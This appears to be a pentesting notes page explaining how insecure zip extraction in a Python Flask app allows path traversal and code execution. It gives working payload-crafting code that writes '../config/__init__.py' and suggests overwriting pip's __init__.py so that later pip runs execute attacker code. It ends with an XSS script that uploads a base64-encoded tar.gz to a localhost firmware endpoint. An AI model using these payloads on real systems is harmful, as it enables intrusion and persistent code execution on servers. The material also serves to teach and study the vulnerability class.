 # Exploiting insecure file extraction

### Python

> Compressed file extraction with insecure code vulnerable to path traversal in Python can result in arbitrary code execution by overwriting \_\_init\_\_.py if flask is running in **debug mo**de.

One of the easiest way to achieve [code execution in PHP](https://www.acunetix.com/websitesecurity/upload-forms-threat/) is by exploiting insecurely written file upload handling logic. If you are able to upload arbitrary PHP file by fooling the file upload logic, you can execute arbitrary PHP code. But when it comes to modern web frameworks written in Go, Node.js, Python, Ruby etc. it's a different story. Even if you managed to upload a .py or .js file to the server, requesting these resource via a URL often won't return anything as the route or URL is not exposed by the application. Even if you are able to access the resource by URL, it won't trigger any code execution as it's treated as a static file and just returns plain text source code. This post will explain how to get code execution in one such scenario in Python when you are able to upload compressed files to the server.

Application security rule of thumb is never to trust user input. Don't just limit that concept to RAW HTTP request object that include query params, post body, files, headers etc. Carefully crafted compressed files that looks legit upon extraction can do bad things if it's handled by insecure code. This post is inspired from a [Security Bug](https://github.com/MobSF/Mobile-Security-Framework-MobSF/issues/358) reported to MobSF and tries to cover the technical aspects of the vulnerability and exploitation. Let's take a look into the insecure code.

```

def unzip(zip_file, extraction_path):
    """
    code to unzip files
    """
    print "[INFO] Unzipping"
    try:
        files = []
        with zipfile.ZipFile(zip_file, "r") as z:
            for fileinfo in z.infolist():
                filename = fileinfo.filename
                dat = z.open(filename, "r")
                files.append(filename)
                outfile = os.path.join(extraction_path, filename)
                if not os.path.exists(os.path.dirname(outfile)):
                    try:
                        os.makedirs(os.path.dirname(outfile))
                    except OSError as exc:  # Guard against race condition
                        if exc.errno != errno.EEXIST:
                            print "\n[WARN] OS Error: Race Condition"
                if not outfile.endswith("/"):
                    with io.open(outfile, mode='wb') as f:
                        f.write(dat.read())
                dat.close()
        return files
    except Exception as e:
        print "[ERROR] Unzipping Error" + str(e)
```

This is a fairly simple python code to extract a zip file and return the list of files in the archive. The zip file comeS to the server after a file upload operation and is send to `unzip()` for extraction. If you look at this line

```
outfile = os.path.join(extraction_path, filename)
```

You can see that `filename` variable is controlled by the user. If we set the value of `filename` to  `../../foo.py`

\>>> import os

\>>> extraction\_path = "/home/ajin/webapp/uploads/"

\>>> filename = "../../foo.py"

\>>> outfile = os.path.join(extraction\_path, filename)

\>>> outfile

'/home/ajin/webapp/uploads/../../foo.py'

\>>> open(outfile, "w").write("print 'test'")

\>>> open("/home/ajin/foo.py", "r").read()

"print 'test'"

By abusing path traversal, we are able to write the file to arbitrary location. In this case into `/home/ajin` instead of `/home/ajin/webapp/uploads/`&#x20;

### Arbitrary Code Execution

We are able to write python code to arbitrary location. Now let's see how we can execute it.\
Consider this sample [vulnerable application](https://github.com/ajinabraham/bad\_python\_extract) written in Python Flask. We will make use of `__init__.py` in Python to achieve code execution. The [docs](https://docs.python.org/2.7/tutorial/modules.html#packages) says&#x20;

> The `__init__.py` files are required to make Python treat the directories as containing packages; this is done to prevent directories with a common name, such as `string`, from unintentionally hiding valid modules that occur later on the module search path. In the simplest case, `__init__.py` can just be an empty file, but it can also execute initialization code for the package or set the `__all__` variable, described later.

So if we can overwrite `__init__.py` file with arbitrary Python code inside a directory of the web application that act as a package, then we can achieve code execution if that package is imported by the application. For our code to execute, a server restart is required in most case. But in this example we are running a Flask server with _debug_ set to _True_ which means every time a Python file is changed, the server will do a restart.

### Crafting the Payload

The vulnerable web app has a directory called [config](https://github.com/ajinabraham/bad\_python\_extract/tree/master/config). There is already `__init__.py` and `settings.py` in this directory. The main server file `server.py` imports `settings.py` from `config` directory, which means if we can write code into `config/__init__.py`, we will be able to achieve code execution. We can craft the payload using the following code:

```
import zipfile
z_info = zipfile.ZipInfo(r"../config/__init__.py")
z_file = zipfile.ZipFile("/home/ajin/Desktop/bad.zip", mode="w")
z_file.writestr(z_info, "print 'test'")
z_info.external_attr = 0777 << 16L
z_file.close()
```

If you look into the [file upload code](https://github.com/ajinabraham/bad\_python\_extract/blob/master/server.py#L62-L63), you can see that the file uploads are extracted into `uploads` directory. We can create a malicious filename with [zipfile.ZipInfo()](https://docs.python.org/2/library/zipfile.html#zipfile.ZipInfo). Here we give the filename as `../config/__init__.py` to overwrite `__init__.py` inside `config` directory. `z_info.external_attr = 0777 << 16L` will set the file permission to read and write by everyone. Let's create a zip file and upload it to the vulnerable web app.

![](.gitbook/assets/1663772426.png)

We can see that the Flask app reloads and the server console prints **test**. Our code execution is successful.&#x20;

### Exploiting Realworld Applications

In this example, the arbitrary code executed instantly as the Flask server was running on debug mode. This may not be the case elsewhere. You might need to wait until the server is restarted. Another problem is that we don't always know the package directory like `config` in this case. It's easy with an open source project where you have access to the source code. For closed source applications, you can take a good guess for package directories like `conf, config, settings, utils, urls, view, tests, scripts, controllers, modules, models, admin, login` etc. These are some of the common package directories found in some Python web frameworks like Django, Flask, Pyramid, Tornado, CherryPy, web2py etc.

Alternatively, let's say the web application is running inside Ubuntu Linux. The installed and inbuilt Python packages will be available under: `/home/<user>/.local/lib/python2.7/site-packages/pip`. Assuming that the app is running under user directory, you can craft a filename like `../../.local/lib/python2.7/site-packages/pip/__init__.py`. Upon extraction, this creates `__init__.py` file inside `pip` directory. If the app is using virtualenv and let's say the virtualenv directory is `venv`, you can use a filename like `../venv/lib/python2.7/site-packages/pip/__init__.py`. The will brick pip, but next time someone run pip command in the server, your code will execute!&#x20;



### Arbitrary File reading

1. Directory traversal (also known as file path traversal)
2. Un lien symbolique



### XSS

```
<script>
    function base64toBlob(base64Data, contentType) {
      contentType = contentType || "";
      var sliceSize = 1024;
      var byteCharacters = atob(base64Data);
      var bytesLength = byteCharacters.length;
      var slicesCount = Math.ceil(bytesLength / sliceSize);
      var byteArrays = new Array(slicesCount);

      for (
        var sliceIndex = 0;
        sliceIndex < slicesCount;
        ++sliceIndex
      ) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
          bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
      }
      return new Blob(byteArrays, { type: contentType });
    }

    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);

    //File contents encoded to Base64
    var b64file =  "H4sICCzHg2IC/3BvYy50YXIA7c9BCoMwEIXhHCUnSGbiBM8TBIsgrbQp9PhGl9KNlu7+jxneboYXQgzfpizLtvM0lDo97vFVWw5xnMst1E91Z0jT57xnc0wRVaeWTHrrLJuTpKqd8+nau3PerdnT+5/vHMsBAAAAAAAAAAAAAAAAAPBHKwtm0PwAKAAA"

    //Create a Blob object
    var content_type = "application/x-gtar-compressed";
    var blob = base64toBlob(b64file, content_type);

    //Append Blob to FormData
    var formData = new FormData();
    formData.append("file", blob, "file.tar.gz");

    //Send FormData to the server via XMLHttpRequest
    var url = "http://localhost:1337/api/firmware/upload";
    var request = new XMLHttpRequest();
    request.open("POST", url);
    request.send(formData);
  </script>
  
  // cat tar.gzip | base64 - w0
```



